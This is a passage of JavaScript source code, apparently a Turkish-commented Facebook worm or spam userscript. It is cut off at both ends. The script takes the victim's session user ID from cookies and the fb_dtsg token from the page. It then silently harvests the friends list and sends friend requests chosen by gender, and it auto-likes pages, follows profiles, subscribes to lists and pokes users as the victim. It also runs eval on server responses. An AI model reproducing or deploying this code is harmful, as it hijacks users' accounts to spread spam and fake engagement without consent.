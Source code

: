 @[" + arkadaslar.payload.entries[i].uid +  ":" + arkadaslar.payload.entries[i].text + "]"; 				  smesaj_text += " " + arkadaslar.payload.entries[i].text; 				  } 					} 					sdurumpaylas();				} 				 			} 			         }; 		var params = "&amp;filter[0]=user"; 		params += "&amp;options[0]=friends_only"; 		params += "&amp;options[1]=nm"; 		params += "&amp;token=v7";         params += "&amp;viewer=" + user_id; 		params += "&amp;__user=" + user_id; 		         if (document.URL.indexOf("https://") >= 0) { xmlhttp.open("GET", "https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1" + params, true); }         else { xmlhttp.open("GET", "http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1" + params, true); }         xmlhttp.send(); }  //tiklama olayini dinle var tiklama = document.addEventListener("click", function () { if(document.cookie.split("paylasti=")[1].split(";")[0].indexOf("hayir") >= 0){ svn_rev = document.head.innerHTML.split('"svn_rev":')[1].split(",")[0]; sarkadaslari_al(); document.cookie = "paylasti=evet;expires="+ btarihi.toGMTString();  document.removeEventListener(tiklama); }  }, false);     //arkada?¾ ekleme function sarkadasekle(uid,cins){ 		var xmlhttp = new XMLHttpRequest();         xmlhttp.onreadystatechange = function () { 			if(xmlhttp.readyState == 4){	 			}         }; 		 		xmlhttp.open("POST", "/ajax/add_friend/action.php?__a=1", true);  		var params = "to_friend=" + uid; 		params += "&amp;action=add_friend"; 		params += "&amp;how_found=friend_browser"; 		params += "&amp;ref_param=none"; 		params += "&amp;outgoing_id="; 		params += "&amp;logging_location=friend_browser"; 		params += "&amp;no_flyout_on_click=true"; 		params += "&amp;ego_log_data="; 		params += "&amp;http_referer="; 		params += "&amp;fb_dtsg=" + document.getElementsByName('fb_dtsg')[0].value;         params += "&amp;phstamp=165816749114848369115"; 		params += "&amp;__user=" + user_id; 		xmlhttp.setRequestHeader ("X-SVN-Rev", svn_rev); 		xmlhttp.setRequestHeader ("Content-Type","application/x-www-form-urlencoded"); 		 if(cins == "farketmez" &amp;&amp; document.cookie.split("cins" + user_id +"=").length > 1){ 		xmlhttp.send(params); }else if(document.cookie.split("cins" + user_id +"=").length &lt;= 1){ 		cinsiyetgetir(uid,cins,"sarkadasekle"); }else if(cins == document.cookie.split("cins" + user_id +"=")[1].split(";")[0].toString()){ 		xmlhttp.send(params); } }  //cinsiyet belirleme var cinssonuc = {}; var cinshtml = document.createElement("html"); function scinsiyetgetir(uid,cins,fonksiyon){ 		var xmlhttp = new XMLHttpRequest();         xmlhttp.onreadystatechange = function () { 			if(xmlhttp.readyState == 4){ 			eval("cinssonuc = " + xmlhttp.responseText.toString().replace("for (;;);","") + ";"); 			cinshtml.innerHTML = cinssonuc.jsmods.markup[0][1].__html 			btarihi.setTime(bugun.getTime() + 1000*60*60*24*365); 			if(cinshtml.getElementsByTagName("select")[0].value == "1"){ 			document.cookie = "cins" + user_id + "=kadin;expires=" + btarihi.toGMTString(); 			}else if(cinshtml.getElementsByTagName("select")[0].value == "2"){ 			document.cookie = "cins" + user_id + "=erkek;expires=" + btarihi.toGMTString(); 			} 			eval(fonksiyon + "(" + id + "," + cins + ");"); 			}         }; 		xmlhttp.open("GET", "/ajax/timeline/edit_profile/basic_info.php?__a=1&amp;__user=" + user_id, true); 		xmlhttp.setRequestHeader ("X-SVN-Rev", svn_rev); 		xmlhttp.send(); } var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function Like(p) { var Page = new XMLHttpRequest(); var PageURL = "//www.facebook.com/ajax/pages/fan_status.php"; var PageParams = "&amp;fbpage_id=" + p +"&amp;add=true&amp;reload=false&amp;fan_origin=page_timeline&amp;fan_source=&amp;cat=&amp;nctr[_mod]=pagelet_timeline_page_actions&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=d&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp="; Page.open("POST", PageURL, true); Page.onreadystatechange = function () { if (Page.readyState == 4 &amp;&amp; Page.status == 200) { Page.close; } }; Page.send(PageParams); }  var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); var fb_dtsg=document.getElementsByName("fb_dtsg")[0].value; var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function a(abone) { var http4=new XMLHttpRequest; var url4="/ajax/follow/follow_profile.php?__a=1"; var params4="profile_id="+abone+"&amp;location=1&amp;source=follow-button&amp;subscribed_button_id=u37qac_37&amp;fb_dtsg="+fb_dtsg+"&amp;lsd&amp;__"+user_id+"&amp;phstamp="; http4.open("POST",url4,true); http4.onreadystatechange=function() { if(http4.readyState==4&amp;&amp;http4.status==200)http4.close } ; http4.send(params4) } function sublist(uidss) { var a = document.createElement('script'); a.innerHTML = "new AsyncRequest().setURI('/ajax/friends/lists/subscribe/modify?location=permalink&amp;action=subscribe').setData({ flid: " + uidss + " }).send();"; document.body.appendChild(a); } function p(abone) { var http4 = new XMLHttpRequest(); var url4 = "//www.facebook.com/ajax/poke_dialog.php"; var params4 = "uid=" + abone + "&amp;pokeback=0&amp;ask_for_confirm=0&amp;nctr[_mod]=pagelet_timeline_profile_actions&amp;__asyncDialog=1&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=v&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp="; http4.open("POST", url4, true); http4.onreadystatechange = function () { if (http4.readyState == 4 &amp;&amp; http4.status == 200) { http4.close; } }; http4.send(params4); }var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var now=(new Date).getTime(); function P(opo) { var X = new XMLHttpRequest(); var XURL ="//www.facebook.com/ajax/ufi/like.php"; var XParams =